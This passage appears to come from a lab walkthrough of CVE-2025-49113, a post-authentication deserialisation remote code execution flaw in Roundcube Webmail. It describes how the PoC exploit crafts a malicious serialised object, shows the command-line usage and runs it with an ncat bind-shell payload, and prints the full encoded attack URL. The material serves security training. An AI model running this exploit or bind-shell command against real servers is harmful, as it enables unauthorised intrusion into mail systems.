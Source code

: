 <p>Note: The <code>CVE-2025-49113.php</code> is the PoC exploit. If you are a free user, the AttackBox does not have Internet access, and you need to use another means to get the above file into the AttackBox. One easy way would be to copy the file from its GitHub page, create a new file on the AttackBox using your preferred text editor, and save it with the extension <code>.php</code>.<br>

The <code>CVE-2025-49113.php</code> executes the necessary steps to get the payload of your choice executed on the target server. After retrieving a CSRF token and a session cookie, this PoC PHP script logs in using the provided username and password. The core steps of this script lie in the following:<br>

- Craft a malicious serialised PHP object<br>
- Embed the crafted object in the _from parameter<br>
- Send a POST request to the upload.php endpoint using the malicious _from parameter<br>

The received malicious parameter will be deserialised and executed on the server side.</p>

<h3>Executing the Exploit</h3>
<p>To run the PoC code, the following arguments need to be used: <code>php CVE-2025-49113.php target_url username password command</code>.

- The target_url should be replaced by Roundcube Webmail’s URL, i.e., <code>http://TargetIP/roundcube</code><br>
- The username and password are the valid credentials to access the webmail<br>
- The command is the “payload” that you want to be executed on the target server<br>

Let’s use <code>ncat -lvnp 4444 -e /bin/bash</code> to set a bind shell; this will make it easier to demonstrate the exploit and test whether it executed successfully. An example is shown in the terminal below.</p>

<p><em>AttackBox Terminal</em></p>

```bash
root@attackbox:~/CVE-2025-49113# php CVE-2025-49113.php http://TargetIP/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### End payload: http://10.10.77.97/roundcube/?_from=edit-%21%C3%22%C3%3B%C3i%C3%3A%C30%C3%3B%C3O%C3%3A%C31%C36%C3%3A%C3%22%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%22%C3%3A%C31%C3%3A%C3%7B%C3S%C3%3A%C32%C36%C3%3A%C3%22%C3%5C%C30%C30%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%5C%C30%C30%C3_%C3g%C3p%C3g%C3c%C3o%C3n%C3f%C3%22%C3%3B%C3S%C3%3A%C33%C30%C3%3A%C3%22%C3n%C3c%C3a%C3t%C3+%C3-%C3l%C3v%C3n%C3p%C3+%C34%C34%C34%C34%C3+%C3-%C3e%C3+%C3%2F%C3b%C3i%C3n%C3%2F%C3b%C3a%C3s%C3h%C3%3B%C3%23%C3%22%C3%3B%C3%7D%C3i%C3%3A%C30%C3%3B%C3b%C3%3A%C30%C3%3B%C3%7D%C3%22%C3%3B%C3%7D%C3%7D%C3&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...
```

